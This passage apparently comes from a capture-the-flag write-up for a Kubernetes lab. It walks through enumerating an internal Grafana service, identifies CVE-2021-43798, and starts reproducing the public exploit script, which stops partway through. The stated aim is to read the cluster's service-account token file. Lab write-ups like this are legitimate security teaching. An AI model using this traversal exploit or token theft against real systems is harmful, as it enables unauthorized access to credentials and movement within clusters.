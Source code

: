 ```bash
echo "ZmxhZ3tkZjJhNjM2ZGUxNTEwOGE0ZGM0MTEzNWQ5MzBkOGVjMX0=" | base64 -d
flag{Redacted}
```

Once we're done enumerating kubernetes, we can start enumerating the internal grafana service as below.

### Enumerating grafana for lateral movement

```bash
curl http://grafana:3000
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100    29  100    29    0     0   7250      0 --:--:-- --:--:-- --:--:--  7250
<a href="/login">Found</a>.
```

A `/login` endpoint is found and grafana can be further enumerated to find the version of grafana running on the cluster to search for any CVEs.

![Insert grafana version photo here](https://bn1304files.storage.live.com/y4mo0vshNXtQZ2LsIiDlvlSJGXm758rOcP9YxoFXI4kudQbxWuWiQJLypqxn9Ct_PpTtqCwJzwUkMrvAQgMhE5a4NOJ8DyOnBHNRvz0DrhoMsMUxlACA-wkhOQ4590phTxw0EnRq18ojLHNtg_C6PE3DpTpUKAUZ35FT1HNfpus8PEshFbFP62PFFsz3B-coPPp?width=2858&height=1284&cropmode=none)

Sure enough, there is a [CVE-2021-43798](https://www.exploit-db.com/exploits/50581) for Gravana v8.3.0-beta2 and a POC script available on exploit DB. Using this vulnerability, we will be able to extract a JWT token of grafana service account.

Kubernetes stores token of a service account running the pod in `/var/run/secrets/kubernetes.io/serviceaccount/token`

An LFI payload can be sent to internal grafana service with the grafana URL and above kubernetes secret path to extract the token.

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vendor Homepage: https://grafana.com/
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Version: V8.0.0-beta1 through V8.3.0
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798
# Tested on: Debian 10
# References: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p47p

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
```
